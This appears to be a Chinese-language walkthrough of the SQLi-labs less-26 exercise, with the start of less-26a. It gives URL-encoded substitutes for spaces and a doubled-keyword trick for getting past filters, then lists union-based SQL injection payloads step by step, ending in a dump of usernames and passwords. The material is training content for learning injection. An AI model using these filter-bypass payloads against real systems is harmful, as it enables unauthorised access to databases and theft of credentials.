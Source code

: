%0c  新的一页 

%0d  return 功能 

%0b  TAB 键（垂直） 

%a0  空格

/*%a0\*/ 空格(5.4版本的PHP可以识别这个作为强制空格)

##### 输入点：

payload:`?id=1'`,会显如下，可以看出对id做了'id'处理，但是由于注释符被过滤了。于是需要使用or 语句来注释闭合即 select * from XXX where 'id=1' or '1'

![image-20201115133544624](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114730.png)

空格也被过滤了，所以使用%a0来替代。payload：`?id=1'%a0oorr%a0'1`

![image-20201115143901437](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114731.png)

##### 输出点：

payload:`100%27union%0bselect%a01,2,3||%271`回显如下。所以1,2为输出点

![image-20201115144030465](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114732.png)

##### 注入方式

使用%a0替代空格，|| 或oorr来替换or。再使用union来联合注入

##### 注入步骤

- 判断列数`payload:	` 4的时候页面回显报错，所以判断出列数为3列(通过select来判断)
- 联合查询，判断各列输出的位置`payload:?id=100'%a0union%a0select%a01,2,3||%271`
- 获取数据库`payload:?id=100'union%a0select%a01,database(),3||'1`
- 爆数据表`payload:?id=100'%a0union%a0select%a01,(select%a0group_concat(table_name)%a0from%a0infoorrmation_schema.tables%a0where%a0table_schema=database()),3%a0||'1`
- 爆users表的数据字段`payload：?id=100'%a0union%a0select%a01,(select%a0group_concat(column_name)%a0from%a0infoorrmation_schema.columns%a0where%a0table_name='users'),3%a0||'1`
- 在爆出的字段中里面看到了password和username，于是爆数据`?id='union%0bselect%0b1,group_concat(username,0x7e,passwoorrd),3%a0from%0busers%a0where%a0'1`username和password中间使用~来分隔

## less-26a

##### 注入类型

过滤了空格，or，and,/*,#(含url编码),--,/做了过滤 该题对id做的是('id')处理

##### 绕过方法：

%09  TAB 键（水平） 

%0a  新建一行 

%0c  新的一页 
